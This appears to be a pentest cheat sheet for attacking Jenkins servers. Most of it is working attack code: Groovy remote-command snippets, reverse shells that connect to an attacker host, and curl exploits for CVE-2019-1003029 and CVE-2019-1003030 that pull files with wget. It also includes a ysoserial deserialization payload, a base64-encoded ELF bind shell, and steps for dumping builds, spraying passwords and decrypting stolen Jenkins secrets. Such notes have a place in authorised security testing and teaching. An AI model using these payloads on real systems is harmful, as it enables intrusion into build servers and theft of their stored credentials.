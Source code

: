 # Jenkins
 
```text
# Tools
# dump_builds, offline_decryption & password_spraying
# https://github.com/gquere/pwn_jenkins
# https://github.com/Accenture/jenkins-attack-framework

# URL's to check
JENKINSIP/PROJECT//securityRealm/user/admin
JENKINSIP/jenkins/script

# Groovy RCE
def process = "cmd /c whoami".execute();println "${process.text}";

# Groovy RevShell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Common bugs

### Deserialization RCE in old Jenkins \(CVE-2015-8103, Jenkins 1.638 and older\)

Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload. Then RCE using [this script](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```

### Authentication/ACL bypass \(CVE-2018-1000861, Jenkins &lt;2.150.1\)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:

```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

### Metaprogramming RCE in Jenkins Plugins \(CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002\)

Original RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html), full exploit [here](https://github.com/petercunha/jenkins-rce).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).

### CheckScript RCE in Jenkins \(CVE-2019-1003029, CVE-2019-1003030\)

Check if a Jenkins instance is vulnerable \(needs Overall/Read permissions\) with some Groovy:

```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitrary bash commands:

```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt".execute()}}'
```

If you don't immediately get a reverse shell you can debug by throwing an exception:

```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def proc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'
```

### Git plugin \(&lt;3.12.0\) RCE in Jenkins \(CVE-2019-10392\)

This one will only work is a user has the 'Jobs/Configure' rights in the security matrix, so it's very specific.

### Dumping builds to find cleartext secrets

Use [this script](https://github.com/gquere/pwn_jenkins/blob/master/dump_builds/jenkins_dump_builds.py) to dump build console outputs and build environment variables to hopefully find cleartext secrets.

```text
usage: jenkins_dump_builds.py [-h] [-u USER] [-p PASSWORD] [-o OUTPUT_DIR]
                              [-l] [-r] [-d] [-s] [-v]
                              url [url ...]

Dump all available info from Jenkins

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
  -o OUTPUT_DIR, --output-dir OUTPUT_DIR
  -l, --last            Dump only the last build of each job
  -r, --recover_from_failure
                        Recover from server failure, skip all existing
                        directories
  -d, --downgrade_ssl   Downgrade SSL to use RSA (for legacy)
  -s, --no_use_session  Don't reuse the HTTP session, but create a new one for
                        each request (for legacy)
  -v, --verbose         Debug mode
```

### Password spraying

Use [this python script](https://github.com/gquere/pwn_jenkins/blob/master/password_spraying/jenkins_password_spraying.py).

### Files to copy after compromising

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:

```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```

### Decrypt Jenkins secrets offline

Use [this script](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) to decrypt previously dumped secrets.

```text
Usage:
    jenkins_offline_decrypt.py <jenkins_base_path>
or:
    jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
    jenkins_offline_decrypt.py -i <path> (interactive mode)
```

### Groovy Scripts

### Decrypt Jenkins secrets from Groovy

```java
println(hudson.util.Secret.decrypt("{...}"))
```

### Command execution from Groovy

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

For multiline shell commands, use the following shell syntax trick \(example includes bind shell\):

```java
def proc="sh -c \$@|sh . echo /bin/echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAzgAAAAAAAAAkAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdSxwQkAgD96UiJ5moQWmoxWA8FajJYDwVIMfZqK1gPBUiXagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU= | base64 -d > /tmp/65001".execute();
```

Automate it using [this script](https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_admin_script.py).

### Reverse shell from Groovy

```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

I'll leave this reverse shell tip to recover a fully working PTY here in case anyone needs it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```

